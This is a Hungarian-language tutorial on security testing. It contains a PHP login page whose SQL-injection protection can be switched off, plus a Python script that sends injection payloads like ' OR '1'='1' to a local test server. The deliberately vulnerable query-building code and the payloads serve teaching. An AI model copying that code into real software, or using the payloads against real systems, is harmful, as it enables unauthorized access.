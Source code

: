 # A biztonság tesztelése

* **Szerző:** Sallai András
* Copyright (c) 2024, Sallai András
* Licenc: [CC Attribution-Share Alike 4.0 International](https://creativecommons.org/licenses/by-sa/4.0/)
* Web: [https://szit.hu](https://szit.hu)

## Tartalomjegyzék

* [Tartalomjegyzék](#tartalomjegyzék)
* [A biztonsági tesztelésről](#a-biztonsági-tesztelésről)
* [Tesztelési módszertanok](#tesztelési-módszertanok)
* [SQL Injection teszt](#sql-injection-teszt)
* [Lehetséges egyéb megoldások](#lehetséges-egyéb-megoldások)

## A biztonsági tesztelésről

A cél a szoftverek sérülékenységeinke feltárása, az érzékyen adatok megvédése.

## Tesztelési módszertanok

* biztonsági vizsgálat
* sebezhetőség vizsgálat
* behatolásteszt
* etikus hackelés

![Biztonsági tesztelés módszertanok](images/Biztonsagi_teszt_modszertanok.png)

![Biztonsági tesztelés módszertanai grafikonon](images/Biztonsagi_tesztek_grafikonon.png)

### Biztonsági vizsgálat

* Fehérdobozos teszt.
* Pl. valóban kötelező a betűk és számok használata a jelszavaknál?

### Sebezhetőség vizsgálat

* Zöld dobozs teszt.
* Biztonsági rések mintáit keresi egy automatizált szoftver.
* Pl. Valamilyen bemenetre, érzékeny adatokat szolgáltat az alkalmazás.

### Behatolásteszt

* Fekete dobozos teszt.
* A tesztelőnek nincs jogosultsága.
* Nehezen automatizálható.
* Kétféle:
  * Blue teaming (a tesztelő ismeri az infrastruktúrát)
  * Red teaming (a tesztelő nem ismeri az infrastruktúrát)

### Etikus hackelés

* Előzetes ismeretek nélküli teszt.
* Akár pszichológiai manipulációval (social engineering).

## SQL Injection teszt

A Python requests könyvtárát fogjuk használni.

### PHP beléptető felület készítése

Egy egyszerű PHP beléptető felületet fogunk készíteni, amiben be és ki lehet kapcsolni a SQL Injection elleni védelmet:

#### Adatbázis

```sql
CREATE DATABASE test_db;

USE test_db;

CREATE TABLE users (
    id INT AUTO_INCREMENT PRIMARY KEY,
    username VARCHAR(50) NOT NULL UNIQUE,
    password VARCHAR(255) NOT NULL
);

INSERT INTO users (username, password) 
VALUES ('admin', PASSWORD('admin_password'));

INSERT INTO users (username, password) VALUES 
('user', PASSWORD('user_password'));

grant all 
on test_db.* 
to 'test_user'@'localhost' 
identified by 'test_password';
```

#### PHP kód

src/login.php:

```php
<?php
// Adatbázis kapcsolat adatai
$servername = "localhost";
$username = "test_user"; // az adatbázis felhasználóneve
$password = "test_password"; // az adatbázis jelszava
$dbname = "test_db";

// SQL injekció elleni védelem kapcsolója
define('USE_PREPARED_STATEMENTS', false);

// Kapcsolódás az adatbázishoz
$conn = new mysqli($servername, $username, $password, $dbname);

// Kapcsolat ellenőrzése
if ($conn->connect_error) {
    die("Kapcsolódási hiba: " . $conn->connect_error);
}

// Űrlap feldolgozása
if ($_SERVER["REQUEST_METHOD"] == "POST") {
    $input_username = $_POST['username'];
    $input_password = $_POST['password'];

    if (USE_PREPARED_STATEMENTS) {
        trigger_error("-------Védett----------");
        // SQL injekció ellen védett megoldás
        $stmt = $conn->prepare("SELECT * FROM users WHERE username = ? AND password = password(?)");
        $stmt->bind_param("ss", $input_username, $input_password);
        $stmt->execute();
        $result = $stmt->get_result();
        
    } else {
        // Nem védett megoldás (sebezhető SQL injekcióra)
        trigger_error("------Nem védett-----------");
        $sql = "SELECT * FROM users WHERE username = '$input_username' AND password = password('$input_password')";
        trigger_error($sql);
        $result = $conn->query($sql);
    }

    // Felhasználó ellenőrzése
    if ($result->num_rows > 0) {
        echo "Sikeres bejelentkezés!";
    } else {
        echo "Hibás felhasználónév vagy jelszó!";
    }
}
?>

<!DOCTYPE html>
<html lang="hu">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Bejelentkezés</title>
</head>
<body>
    <h2>Bejelentkezés</h2>
    <form method="post">
        <label for="username">Felhasználónév:</label>
        <input type="text" name="username"><br><br>
        <label for="password">Jelszó:</label>
        <input type="password" name="password"><br><br>
        <input type="submit" value="Bejelentkezés">
    </form>
</body>
</html>
```

### Telepítés

```bash
pip install requests
```

### A tesztelés

Indítsuk el a fenti szervert.

```bash
php -S localhost:3000 -t src
```

Az src helyére a könyvtár neve, ahol van a login.php.

* localhost:3000/login.php

Egyszerű tesztkód:

```python
import requests

url = "http://localhost:3000/login.php"

payloads = [
    ("admin", "admin"),
    ("admin", "admin_password"),
    ("admin' -- ", ""),
    ("' OR '1'='1' or '1'='1", "")
]

for username, password in payloads:
  response = requests.post(
    url, 
    data={
        'username': username, 
        'password': password
        })

  # Ellenőrizzük a választ tartalmát:
  if "Sikeres bejelentkezés" in response.text:
    print(f"Sikeres támadás: {username} - {password}")
  elif "error" in response.text.lower():
    print(f"Hiba a támadás során: {username} - {password}")
  else:
    print(f"Nem működött   : {username} - {password}")

```

* [https://github.com/oktat/sql_injection_test.git](https://github.com/oktat/sql_injection_test.git)

## Lehetséges egyéb megoldások

Webes alkalmazások:

* [Wapiti](https://wapiti-scanner.github.io/)
* [dirb](https://www.kali.org/tools/dirb/)
* [ZAP -Zed Attack Proxy](https://www.zaproxy.org/)
* [Burp Suite](https://portswigger.net/burp/communitydownload)
* [Acunetix](https://www.acunetix.com/)

Mobil alkalmazások:

* [MobSF](https://github.com/MobSF/Mobile-Security-Framework-MobSF)
* [Qark](https://github.com/linkedin/qark)
* [Drozer](https://github.com/WithSecureLabs/drozer)

Asztali alkalmazásokhoz

* [SonaQube](https://www.sonarsource.com/products/sonarqube/)
* [Veracode](https://www.veracode.com/)
* [Checkmarx](https://checkmarx.com/)
